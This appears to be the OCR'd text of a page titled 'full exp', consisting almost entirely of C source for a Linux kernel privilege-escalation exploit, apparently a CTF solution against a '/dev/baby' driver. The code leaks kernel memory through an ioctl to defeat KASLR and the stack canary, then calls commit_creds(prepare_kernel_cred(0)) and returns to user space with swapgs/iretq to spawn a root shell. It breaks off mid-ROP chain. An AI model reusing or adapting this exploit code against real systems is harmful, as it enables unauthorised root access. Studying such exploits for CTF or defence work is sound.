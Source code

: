 完整exp
```
#include<stdio.h>
#include<sys/ioctl.h>
#include<sys/mman.h>
#include<stdint.h>
#include<stdio.h>
struct trap_frame{
    void *rip;
    uint64_t cs;
    uint64_t rflags;
    void * rsp;
    uint64_t ss;
}__attribute__((packed));
struct trap_frame tf;
void launch_shell(){
    execl("/bin/sh","sh",NULL);
}
void save_status(){
     asm(
       " mov %%cs, %0\n"
       "mov %%ss,%1\n"
       "mov %%rsp,%3\n"
       "pushfq\n"
       "popq %2"
       :"=r"(tf.cs),"=r"(tf.ss),"=r"(tf.rflags),"=r"(tf.rsp)
       :
       :"memory"
    );
    tf.rsp -= 4096;
    tf.rip = &launch_shell;
}
uint64_t (*commit_creds)(uint64_t cred) = 0xffffffff810b99d0;
uint64_t (*prepare_kernel_cred)(uint64_t cred) = 0xffffffff810b9d80;
void payload(){
    commit_creds(prepare_kernel_cred(0));
  asm("movq $tf, %rsp\n"
    "swapgs\n"
    "iretq\n");
}
uint64_t u64(char * s){
    uint64_t result = 0;
    for (int i = 7 ; i >=0 ;i--){
        result = (result << 8) | (0x00000000000000ff&s[i]);
    }
    return result;
}
int main(){
    save_status();
    int driver_fd = open("/dev/baby",0);
    char temp[0x1000];
    ioctl(driver_fd, 0x6002, &temp);
    write(1,temp,0x200);
    uint64_t nokaslr_address = 0xffffffff8129b078;
    uint64_t address = u64(&temp[0x48]);
    uint64_t canary = u64(&temp[0x68]);
    uint64_t movrdicr4_poprbp_ret = address + 0xffffffff81020300 -nokaslr_address;
    uint64_t poprdi = address + 0xffffffff810027a5 - nokaslr_address;

    commit_creds = address + (commit_creds - nokaslr_address);
    prepare_kernel_cred = address + (prepare_kernel_cred - nokaslr_address);
    getchar();
    uint64_t ropchain[0x100] = {
        0,0,0,0,0,0,0,0,
```